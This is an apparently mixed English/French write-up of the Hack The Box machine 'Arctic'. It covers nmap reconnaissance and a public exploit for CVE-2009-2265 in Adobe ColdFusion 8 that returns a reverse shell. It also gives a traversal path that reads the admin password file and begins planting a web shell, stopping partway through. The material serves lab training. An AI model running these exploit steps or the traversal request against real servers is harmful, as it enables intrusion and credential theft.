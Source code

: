 ```yaml
---
title: Arctic - HacktheBox(Easy)
date: 2024-06-22
author: Habukhan
categories: [TryHackMe]
tags: [Hacking, CTFs, THM]
image: https://i.ibb.co/x2bNLDD/ar.jpg
---
```


* [The Best Academy to Learn Hacking.](https://account.hackthebox.com/register)
* [Beginner Friendly challenges on TryHackMe.](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)

# Arctic - HacktheBox(Easy)

Good evening again, I will present to you my writeup on the exploitation of a Level Windows Machine Facileon HacktheBox

Description:
* Arctic is pretty simple, but web server load times cause some operational issues. Basic troubleshooting is required for the exploit to work properly.

*  [The Best Academy to Learn Hacking.](https://account.hackthebox.com/register)
* Beginner Friendly challenges on TryHackMe [Here.](https://tryhackme.com/)

# Reconaissance

To start, I'm going to run a scan with my [nmapautonmap](https://github.com/nenandjabhata/CTFs-Journey/blob/main/Scripts/nmapauto.sh) tool .
```bash
─# /home/blo/tools/nmapautomate/nmapauto.sh $ip

###############################################
###---------) Starting Quick Scan (---------###
###############################################

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-27 18:24 CST
Initiating Ping Scan at 18:24
Scanning 10.129.136.143 [4 ports]
Completed Ping Scan at 18:24, 2.18s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:24
Completed Parallel DNS resolution of 1 host. at 18:24, 0.00s elapsed
Initiating SYN Stealth Scan at 18:24
Scanning 10.129.136.143 [1000 ports]
SYN Stealth Scan Timing: About 99.99% done; ETC: 18:28 (0:00:00 remaining)
Completed SYN Stealth Scan at 18:28, 231.60s elapsed (1000 total ports)
Nmap scan report for 10.129.136.143
Host is up (2.0s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown

----------------------------------------------------------------------------------------------------------
Open Ports : 135,8500,49154                                                                                                                                                                  
--------------------------------
Service scan Timing: About 66.67% done; ETC: 18:33 (0:00:47 remaining)
Nmap scan report for 10.129.136.143
Host is up (0.58s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
With my scan, I only find 3 ports which are open on the Machine including:

* Ports 135 & 49154: qui execute le Microsoft Windows RPC
* Port 8500 : which it executes Flight Message Transfert Protocol(FMTP)

By visiting port 8500 , I land on this page

![Artic - HacktheBox](https://i.ibb.co/Fn05ncT/image-86.png)

In these two (2) directories, while searching I came across a page /administratorwhich sent me to a login

![Artic - HacktheBox](https://i.ibb.co/5T2jpnd/ad.png)

* In this one I find in the title Adobe ColdFusion 8 Administrator. so I'm looking for exploits on Googleand onSearchsploit

![Artic - HacktheBox](https://i.ibb.co/X7zytVy/cold.png)

With this search I find the exploit 50057.pyand I copy it locally. Reading the exploit I see that it is the CVE-2009-2265.

* I open the exploit in my Sublime texteto read it a little and modify it at the IPs level, then I launch

```bash
─# python3 coldfusion.py         

Generating a payload...
Payload size: 1496 bytes
Saved as: c39559fbd32947c597bc9bbc08db4a9f.jsp

Priting request...
Content-type: multipart/form-data; boundary=854f29a3ce9247d89abbcf5729ffc490
Content-length: 1697

--854f29a3ce9247d89abbcf5729ffc490
Content-Disposition: form-data; name="newfile"; filename="c39559fbd32947c597bc9bbc08db4a9f.txt"
Content-Type: text/plain


Printing some information for debugging...
lhost: 10.10.16.4
lport: 1337
rhost: 10.129.136.143
rport: 8500
payload: c39559fbd32947c597bc9bbc08db4a9f.jsp

Deleting the payload...

Listening for connection...

Executing the payload...
listening on [any] 1337 ...
connect to [10.10.16.4] from (UNKNOWN) [10.129.136.143] 49295
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

Now we have a non-privileged shell as tolisin the system. So we'll need to find a way to escalate privileges.
# Exploitation Manuelle(Directory Traversal )
By doing some research for manual exploitation and broadening my understanding, I found that this software is also vulnerable to a Directory Traversal Vulnerability

![Artic](https://i.ibb.co/NNBMZ6t/Screenshot-2024-02-29-at-19-04-46-Adobe-Cold-Fusion-Directory-Traversal.png)

From here I can see that we are told to send a request GETto the following PATH:/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

By running this query on Burpsuite, we get a return of a crypt password l'administrateurinsha1

![Artic](https://i.ibb.co/z8kC1Zy/burp1.png)
So using it crackstationI manage to crack it

![Artic](https://i.ibb.co/NWB1H3h/Screenshot-2024-02-29-at-19-11-03-Crack-Station-Online-Password-Hash-Cracking-MD5-SHA1-Linux-Rainbow.png)

# Shell
Now that I am in the admin panel, I will then try to have a shell on the machine which hosts this site by injecting a CFMmalicious file which will help us to execute commands remotely. For this we must:

* First to find our payload in cfm, I did some research on Github and I came across this Payload then I copied it locally
* Go to the Settings tab on the left and click on the “Mappings” section.
* L’un des mappages par défaut est C:\ColdFusion8\wwwroot\CFIDE. C’est là que je vais ecrire mon shell donc je copy ce path

